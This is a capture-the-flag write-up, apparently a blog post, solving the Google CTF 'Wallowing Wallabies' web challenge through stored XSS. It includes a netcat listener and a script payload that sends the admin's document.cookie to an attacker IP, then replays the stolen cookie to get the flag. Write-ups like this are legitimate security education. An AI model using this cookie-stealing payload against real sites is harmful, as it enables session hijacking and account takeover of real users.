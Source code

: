 ```yaml
---
layout: post
title: Google CTF - Wallowing Wallabies - Part One
comments: true
---
```


This post is about the [Wallowing Wallabies](https://wallowing-wallabies.ctfcompetition.com/) web challenge of the [Google CTF](https://capturetheflag.withgoogle.com).

<div class="danger" markdown="1">
  **Warning:** This post contains spoilers.
</div>

On the website, we are greeted by this beautiful page:

![Wallowing Wallabies home page](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/homepage.png)

As interesting as this page is, I quickly moved to the `sitemap.xml` (none were found) and to the `robots.txt`:

<!--more-->

```
User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors
```

After trying all the URLs, I found that the vendors one was interesting.

![Wallowing Wallabies Vendors](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors.png)

That's interesting. It is obviously a form where you put text that will be read by an administrator (or a bot in our case). Let's see if it's possible to do a [XSS injection](https://en.wikipedia.org/wiki/Cross-site_scripting). We will start by checking if the HTML tags are displayed to the page:

``` html
<h1>XSS</h1>
```

And we receive

![Wallowing Wallabies Vendor submission confirmation with XSS hint](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors-hint.png)

So the `<h1>` didn't work, but we get told that they expect our form to contains `<script src=`. We can conclude that this challenge is really an XSS.

Now that we know what we can do, we have to find out what to do. The first thing to think about when we control a page that will be viewed by someone (especially an admin) is that we can steal his **session cookie**.

To steal a cookie, one can redirect the current user viewing the page to a page under our control, with the cookies appended to the URL. Note that this is a lazy way to do it and it might fail in some cases if the cookie is longer than the max length of the URL. Hopefully, this is not our case, so we can be lazy.

The first thing to do is to setup a server to receive the cookie. I used netcat as it is easy to setup and we only need to listen to one connection. Note that if you are behind a router, you will need to redirect the port you use to your computer. I will leave this as an exercise to the reader.

Start your "web server":

``` bash
netcat -l -p 8085 #-l is to listen -p is to specify the port
```

Now we need our JavaScript payload to redirect the user. Once again I don’t want to host the script, and the website wants to receive `<script src=`, so I just append it to my script to make the check pass.

``` html
<script>
  window.location = "http://YOUR_IP_ADDRESS:8085/" + document.cookie;
</script>
<script src=""></script>
```

The admin (bot) will load the page with your script in it, and you will see the URL containing the cookie in the netcat terminal. Don’t forget to **URL decode** the cookie.

Your cookie should look something like this:

```
green-mountains=eyJub25jZSI6IjU5M2E3ZmRjNDFhNGYxYTAiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA1MTA0M30=|1462051040|92ceb6fb03f0501199c4399ca3cf870bccd6ffd2
```

The cookie is named `green-mountains` and the value is everything after the first `=`. We can see that it's in 3 parts separated by `|`. The first part looks like Base64 (you can tell because it's all **alphanumeric** and end with an `=`). If you decode it, you get:

``` json
{"nonce":"593a7fdc41a4f1a0","allowed":"^/deep-blue-sea/team/vendors.*$","expiry":1462051043}
```

The interesting part is the `allowed`, which seems to give access to our **vendor** website. We will set the cookie in the browser. You can do it by pasting that in the console:

``` js
document.cookie = "green-mountains=eyJub25jZSI6IjU5M2E3ZmRjNDFhNGYxYTAiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA1MTA0M30=|1462051040|92ceb6fb03f0501199c4399ca3cf870bccd6ffd2";
```

When you access the [vendor](https://wallowing-wallabies.ctfcompetition.com/deep-blue-sea/team/vendors) page: **Voilà!** You get your flag!

![Wallowing Wallabies Vendor page with blurred flag](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors-flag.png)
